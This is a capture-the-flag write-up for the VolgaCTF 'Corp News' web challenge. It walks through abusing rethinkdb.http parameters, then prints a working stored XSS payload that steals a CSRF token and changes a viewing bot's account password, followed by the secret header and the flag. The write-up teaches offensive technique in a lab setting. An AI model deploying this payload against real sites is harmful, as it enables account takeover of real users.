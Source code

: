 # Web 300: Corp News
For this challenge we are given a web server and the hint: 'Some errors may shed light on what is there on the backend'

The web page has a few features all of which are implemented with jquery posts.
1. Login/Register either authenticates a user with a password or creates a new account, and lies about password requirements (it requires uppercase,lowercase and numbers)
2. Change password, POST to /change_password with json object including new_password, confirm_password, and a csrf token
3. Submit Feedback, POST to /feedback with json object {'comment':'text'}
4. Read private news POST to /news details below
5. a /feedback page that does not seem to actually display any comments

The hint makes it seem like there will be some kind of command/sql injection into the backend.
To start off, I used a quick python script to make the POST requests and return the error messages.
I frequently got Syntax Errors on my POST data, but only because it was being passed directly to JSON.parse, which was
determined from a stack trace it displayed in the error message. Which also identified the backed as nodejs.

After determining that those Syntax Errors did not lead to any command injection, I went to look at the read private news feature.
The server was making requests with the following json data, and always displayed the error message
```
var data = {'resultFormat': 'text'}
```
```
Please, set debug header true, because the app in developing state:)
```

When making requests with other values for resultFormat it responds saying the only supported result_format values are json, jsonp, binary, text, and auto.
After some googling for result_format and those options, I determined that the backend was likely running rethinkdb, and the 
json object was being passed as parameters to the rethinkdb.http function.

this was confirmed because I could use other parameters ('redirects' and 'header') to that function without the server throwing errors.
it turns out the 'header' parameter can take in a json object and send those headers to the server. Making the POST request with data
```
{'resultFormat':'text', 'header':{'debug':'true'}}
```
The server responded with text from the about page for VolgaCTF.

After poking around looking for command injection, another team member noticed there was a bot viewing the comments submitted,
and it allowed for XSS. Along with a little message displayed above the comments displaying a random username for the creator of the
website, it seemed the goal was to take over their account.

After a few trials making post requests to my own server to determine my payloads were working, I created a payload to
grab the csrf token from the password change form. The token changes quickly after the bot runs our payload, and I got invalid
token errors, so I expanded the payload to also change the account password.

```
<script>
var x = new XMLHttpRequest();
x.open("GET", "/lk", true);
x.onreadystatechange = function() {
    if (x.readyState == XMLHttpRequest.DONE) {
        text = x.responseText;
        text = text.substr(text.indexOf('invisible">') + 'invisible">'.length);
        csrf = text.substr(0, text.indexOf('</p>'));
        newdata = JSON.stringify({'new_password':'QWERTYqwerty1',confirm_password:'QWERTYqwerty1','token':csrf});
        y = new XMLHttpRequest();
        y.open("POST", "/change_password", true);
        y.setRequestHeader("Content-type", "application/json");
        y.send(newdata);
    }
};
x.send(null);
</script>
```

Once the password was changed I logged into the user's account and the profile page had an interesting notice
```
Your Secret header: asdJHF7dsJF65$FKFJjfjd773ehd5fjsdf7 
```

going back to the private news form, I POSTed the json data
```
{'header': {'debug':'true', 'Secret':'asdJHF7dsJF65$FKFJjfjd773ehd5fjsdf7'}}
```

and it responded with the flag
VolgaCTF{rethinkdb_nearly_without_nosqlInj_and_some_clientside}
